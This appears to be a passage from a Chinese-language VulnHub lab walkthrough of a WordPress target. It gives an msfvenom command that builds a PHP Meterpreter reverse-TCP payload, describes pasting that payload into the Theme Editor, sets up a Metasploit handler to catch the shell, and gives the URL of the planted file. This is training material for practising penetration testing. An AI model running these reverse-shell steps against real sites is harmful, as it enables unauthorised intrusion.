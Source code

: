 ```
使用msf生成php的木马文件，并把内容粘贴到wordpress的编辑代码中。由于wordpres中的apperance中的Theme Editor具有编辑文件的漏洞。
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.15.128 lport=7777 -o shell.php
```

![image-20241203002855033](vulnhub靶场实战/image-20241203002855033.png)	

```
kali开始进行监听
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.15.134
set lport 7777
exploit
```

```
访问该网站即可获得shell。
至于为什么会知道上传的文件是这个目录，由于wordpress的cms源码公开，很多人搭建过，可以自己搭建会发现上传之后就存在以下目录，而且前面网站选择的主题是twentynineteen，所以更确信目录是这个了。
http://192.168.15.134/wordpress/wp-content/themes/twentynineteen/secret.php
```

![image-20241203003707641](vulnhub靶场实战/image-20241203003707641.png)	
